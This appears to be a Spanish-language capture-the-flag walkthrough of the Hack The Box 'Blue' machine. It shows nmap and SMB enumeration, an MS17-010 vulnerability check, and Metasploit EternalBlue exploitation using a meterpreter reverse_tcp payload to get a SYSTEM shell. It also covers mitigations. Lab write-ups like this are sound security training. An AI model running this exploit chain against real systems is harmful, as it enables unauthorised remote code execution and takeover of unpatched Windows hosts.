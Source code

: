```yaml
---
{"-publish":true,"permalink":"/hack-the-box/machines/easy/blue/","PassFrontmatter":true}
---
```


Empezamos realizando un escaneo de nmap

```
nmap -sCV 10.10.10.40 -T5 -oN blue_machine -v
```

![[Pasted image 20250522000912.png\|Pasted image 20250522000912.png]]
Observamos que tenemos algunos puertos importantes como el 139 o 445.

Procederemos a hacer una enumeracion basica de smb con el objetivo de detectar el sistema operativo, nombre de host y dominio del equipo remoto.

```
nmap -p 139,445 --script=smb-os-discovery 10.10.10.40
```

![[Pasted image 20250522001503.png\|Pasted image 20250522001503.png]]

Descubrimos que el hostname de Blue vienea ser 'haris-PC', tambien descubrimos que el sistema operativo corriendo en la maquina objetivo es **windows 7**.

Vamos a descubrir cuantos recursos compartidos hay en Blue.

```
nmap -p 445 --script=smb-enum-shares 10.10.10.40
```

Nos retorna lo siguiente, quiere decir que el puerto esta siendo filtrado por un firewall. Es decir, el paquete fue enviado, pero no recibio ninguna respuesta
![[Pasted image 20250522002159.png\|Pasted image 20250522002159.png]]

Al igual con el puerto 139:

![[Pasted image 20250522002327.png\|Pasted image 20250522002327.png]]

Si listamos con smbclient nos sale lo siguiente:
```
smbclient -L //10.10.10.40 -N
```

![[Pasted image 20250522002414.png\|Pasted image 20250522002414.png]]

Pero por practica vamos a usar msfconsole:

- Empezaremos buscando modulos smb utiles:
```
	- search type:auxiliary smb
```

Veremos varios resultados, pero los mas utiles para enumeracion son:

- **auxiliary/scanner/smb/smb_enumshares**
- **auxiliary/scanner/smb/smb_enumusers**
- **auxiliary/scanner/smb/smb_version**
- **auxiliary/scanner/smb/smb_login** (si tienes credenciales)

## Enumerar recursos compatidos smb (shares)
Usaremos credenciales por defecto como por ejemplo: guest

- set RHOSTS 10.10.10.40
- set THREADS 5
- set SMBUser guest
- set SMBPass ""
- run

![[Pasted image 20250522003301.png\|Pasted image 20250522003301.png]]

## Enumerar usuarios smb (users)

![[Pasted image 20250522003642.png\|Pasted image 20250522003642.png]]

Aqui podemos ver que el usuario guest, no tiene permisos suficientes para poder enumerar usuarios, intentaremos con los usuarios.

## Como hemos encontrado recursos compartidos procederemos a ingresar

Para interactuar con los recursos compartidos usaremos smbclient:

```
smbclient //10.10.10.40/shares -N
```

Los unico recursos compartidos con los cuales podemos interactuar son dos: **Share** y **Users**

Intentamos con **Share**:

![[Pasted image 20250522160800.png\|Pasted image 20250522160800.png]]

Intentamos con "Users"

![[Pasted image 20250522004743.png\|Pasted image 20250522004743.png]]

Nada interesante el los recursos compartidos.

Investigando un poco, vemos que existe una vulnerabilidad llamada EternalBlue la cual afecta principalmente a versiones de Windows que tienen el servicio SMBv1 habilitado y sin parches. Fue explotada por el exploit EternalBlue, filtrado por el grupo Shadow Brokers en 2017, y se identifica como:

CVE-2017-0144

Los sisemas que son vulnerables a EternalBlue (si no tienen el parche):

- Windows XP
- Windows Vista
- Windows 7
- Windows 8 (menos comun, pero puede verse afectado)
- Windows Server 2003
- Windows Server 2008
- Windows Server 2012 (en cietas configuraciones con SMBv1)
- Windows 10 (anteriores a marzo de 2017, sin parche)

Que permite hacer EternalBlue?:
- Ejecucion remota de codigo (RCE) a traves del puerto 445/TCP (SMB).
- Se usa para obtener shells remotas sin autenticacion.
- Se popularizo en malware como WannaCry y NotPetya.

Recomendaciones para prevenir:
1. Deshabilitar SMBv1 si no es necesario.
2. Aplicar todos los parches de seguridad de Windows.
3. Bloquear el puerto 445/TCP en firewalls cuando sea posible.

Procedere a probar con un payload de nmap para verificar si esta maquina Windows 7 es vulnerable a EternalBlue.

```
nmap -p 445 --script smb-vuln-ms17-010 10.10.10.40
```

![[Pasted image 20250522163445.png\|Pasted image 20250522163445.png]]

O tambien podemos usar el siguiente payload para enumerar vulnerabiliades conocidas en el SMB:

```
nmap -p 445 --script smb-vuln* 10.10.10.40
```

![[Pasted image 20250522163652.png\|Pasted image 20250522163652.png]]

Algunos payloads extras:
- nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* ip (escaneo combinado completo de SMB)
- nmap -p 445 --script smb-os-discovery,smb-protocols ip (verificar version de SMB y detalles del servidor)
- sudo nmap --script-updatedb (asegurarnos de que nmap tenga los scripts habilitados)

Una vez que hemos identificado la vulnerabilidad, usaremos msfconsole para explotarla.

Iniciamos el msfconsole:

- msfconsole

Cargamos el exploit:

- use exploit/windows/smb/ms17_010_eternalblue

Verificamos las opciones:

- show options

Establecemos la IP del objetivo:

- set RHOSTS 10.10.10.40

Seleccionamos el payload (por ejemplo, Meterpreter):

- set PAYLOAD windows/x64/meterpreter/reverse_tcp
Si el sismte es de 32 bits, usa: windows/meterpreter/reverse_tcp

En este casoo el payload que sirve es el de **x64**

![[Pasted image 20250522164803.png\|Pasted image 20250522164803.png]]

Damos un **shell** en el meterpreter y tenemos nuestra consola de windows interactiva:

![[Pasted image 20250522165214.png\|Pasted image 20250522165214.png]]


Para ver el usuario con el que se ejecuta el exploit usamos **whoami**: 

- nt authority\system

Para encontrar el user.txt nos vamos al usuario **haris**:

- type user.txt

![[Pasted image 20250522165350.png\|Pasted image 20250522165350.png]]

Al igual para el root nos vamos a **Administrator**:

![[Pasted image 20250522165441.png\|Pasted image 20250522165441.png]]

thansk.